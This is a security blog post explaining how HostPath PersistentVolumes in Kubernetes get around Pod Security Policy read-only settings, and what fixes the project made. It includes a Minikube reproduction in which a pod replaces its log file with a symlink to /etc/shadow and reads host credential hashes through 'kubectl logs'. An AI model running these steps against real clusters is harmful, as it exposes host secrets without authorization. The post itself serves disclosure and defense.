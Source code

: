 ```yaml
---
layout: post
title:  "Dangers of HostPath PersistentVolumes"
date:   2020-03-05 20:12:50 -0800
categories: containers
---
```


## Background

In Kubernetes, a `PersistentVolume` object is an API
object that represents a Volume (some kind of mount),
which can make it easier for operators to keep track
of the Volume. A "share" of a `PersistentVolume` can
be claimed by a Pod via a `PersistentVolumeClaim` object:

| ![pvdocs](/assets/images/pvdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#introduction> |


To actually use a Volume defined by a `PersistentVolume` object,
a Pod's spec references an associated `PersistentVolumeClaim` in
its namespace:

| ![pvcdocs](/assets/images/pvcdocs.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#claims-as-volumes> |


A `PersistentVolume` object can define the [same types](https://kubernetes.io/docs/concepts/storage/persistent-volumes/#types-of-persistent-volumes) of Volumes you are
used to using inline within a Pod's YAML spec, such as `HostPath`.

## Problem Statement

Trail of Bits noted in their Kubernetes audit that `HostPath` type `PersistentVolume`
objects *are not* check against the [`hostPath`-relevant directives](https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems) in a user's Pod Security Policy (PSP):

| ![tobpvbug](/assets/images/tobpvbug.png) | 
|:--:| 
| <https://github.com/kubernetes/community/blob/master/wg-security-audit/findings/Kubernetes%20Final%20Report.pdf> |

Their exploit scenario involved an attacker who, as per their PSP, was *unable* to use `hostPath`
Volumes, but was allowed to create Pods, `PersistentVolume` objects, and `PersistentVolumeClaim` objects.
In this case, the attacker can create a `HostPath` type `PersistentVolume` specifying a mount at the Node's home
directory, and reference that in a subsequent `PersistentVolumeClaim` and Pod reference, thus achieving Pod that
can access the Node's home directory, despite the PSP that is in place.

Kubernetes reponded in turn and added the following language to the documentation:

| ![pvorigwarning](assets/images/pvorigwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/15756> |

However, **there is an additional angle to build on here**. 

It is known that writable `hostPath` Volumes are insecure, and Aqua has a [fantastic writeup](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts) on *one such* example of why this is the case. In Aqua's writeup, they
demonstrate how a Pod that receives a writable `hostPath` Volume of `/var/log` can access *any* files on the Node's
filesystem. You should read the writeup, but this occurs because said Pod can overwrite its (or any other Pod's) `0.log` logfile with a symlink to e.g. `/etc/shadow`, and this symlink is followed by the Node upon any `kubectl logs PODNAME` invocation for the Pod whose logfile has been poisoned!

This is somewhat of a contrived example, but Kubernetes is weary of such trickery, and so they have declared any writeable `hostPath` Volume insecure:

| ![pvorigwarning](assets/images/readfswarning.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/policy/pod-security-policy/#volumes-and-file-systems> |

But note their prescribed fix in the figure above: use the `readOnly: true` sub-directive within the
`allowedHostPaths` directive in a user's PSP in order to make `hostPath` Volumes read-only, and thus safe.
But wait! As we discussed earlier, those directives are not checked for `HostPath` type `PersistentVolume`
objects! And while `PersistentVolume` objects have an `accessModes` directive, support for individual access
modes is determined by the implementation of the underlying storage, and a read-only mode is not supported for
`HostPath` type `PersistentVolumes`:

| ![pvorigwarning](assets/images/pvaccessmodesupport.png) | 
|:--:| 
| <https://kubernetes.io/docs/concepts/storage/persistent-volumes/#persistent-volumes> |

**Exploit Scenario:**

An operator wishes to provide a read-only copy of the Node's `/var/log`, such that a Pod can view other Pods'
logs, and they choose to represent this as a `HostPath` type `PersistentVolume`.

* The operator reads the aforementioned warning in the PSP documentation, and thus sets `readOnly: true` in `allowedHostPaths` for the `PersistentVolume`, assuming this makes the mount read-only, [as it does for inline `hostPath` Volumes](https://github.com/kubernetes/kubernetes/pull/58647).

* Since the Pod can actually write to `/var/log`, the Pod receiving this Volume mount can follow the steps in Aqua's writeup. By writing a symlink to a Pod's logfile, they can read *any* file off of the Node's filesystem, not just what is in `/var/log`/.

**Minikube Example**

Here are some example Kubernetes objects and steps that can be used to reproduce the
exploit scenario above:

1. Reads the docs, and sets `readOnly: true` in a PSP for `hostPath`
Volumes, in order to prevent attacks surrounding writing and symlinks;
the operator wants a Pod with read-only access to other Pods' logs.

~~~
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
   name: psp-restricted
spec:
   allowPrivilegeEscalation: false
   allowedHostPaths:
   - pathPrefix: /var/log
     readOnly: true
   fsGroup:
     rule: RunAsAny
   requiredDropCapabilities:
   - ALL
   runAsUser:
     rule: RunAsAny
   seLinux:
     rule: RunAsAny
   supplementalGroups:
     rule: RunAsAny
   volumes:
   - configMap
   - persistentVolumeClaim
   - emptyDir
   - secret
   - projected
   - nfs
~~~

2. creates a `PersistentVolume` of type `HostPath`, which allows a Pod to
access `/var/log`, under the assumption it is read-only via the PSP
directive

~~~
apiVersion: v1
kind: PersistentVolume
metadata:
    name: task-pv-volume-vol
    labels:
      type: local
spec:
    storageClassName: manual
    capacity:
      storage: 10Gi
    accessModes:
      - ReadWriteOnce
    hostPath:
      path: "/var/log"

apiVersion: v1
kind: PersistentVolumeClaim
metadata:
    name: task-pv-claim-vol
spec:
    storageClassName: manual
    accessModes:
      - ReadWriteOnce
    resources:
      requests:
        storage: 3Gi
~~~

3. but a Pod can still write a symlink to its `0.log` file, which is
followed by the Node upon `kubectl logs PODNAME` in order to read *any* file from the Node

~~~
apiVersion: v1
kind: Pod
metadata:
    name: task-pv-pod
spec:
    volumes:
      - name: task-pv-storage-vol
        persistentVolumeClaim:
          claimName: task-pv-claim-vol
    containers:
      - name: task-pv-container
        image: ubuntu:latest
        command: [ "sh", "-c", "sleep 1h" ]
        volumeMounts:
          - mountPath: "/hostlogs"
            name: task-pv-storage-vol
~~~

~~~
kubectl exec -it task-pv-pod -n default /bin/bash
~~~

~~~
cd
/hostlogs/pods/default_task-pv-pod_c9030cba-f67b-4564-8bbc-531d87e63920/task-pv-container/
~~~

~~~
rm 0.log
~~~

~~~
ln -s /etc/shadow 0.log
~~~

~~~
kubectl logs task-pv-pod -n default
failed to get parse function: unsupported log format:
"root:*:15887:0:::::\n"
~~~


## Fix?

At this point, we've seen why **any `HostPath` type `PersistentVolume` object should
be considered suspect because they cannot be made read-only**. While the `/var/log` example
is the only one I know of, there might be more, which is why the documentation warns about
writable `hostPath` Volumes in the first place.

To address this, Kubernetes is doing two things:

* Updating the documentation's language to state that `HostPath` type `PersistentVolume` objects
cannot be made read-only, which, as we know, is insecure by design

| ![newdocwarning](assets/images/newdocwarning.png) | 
|:--:| 
| <https://github.com/kubernetes/website/pull/19504/> |

* [Requesting](https://github.com/kubernetes/kubernetes/issues/88880) a feature for read-only `HostPath` type `PersistentVolume` objects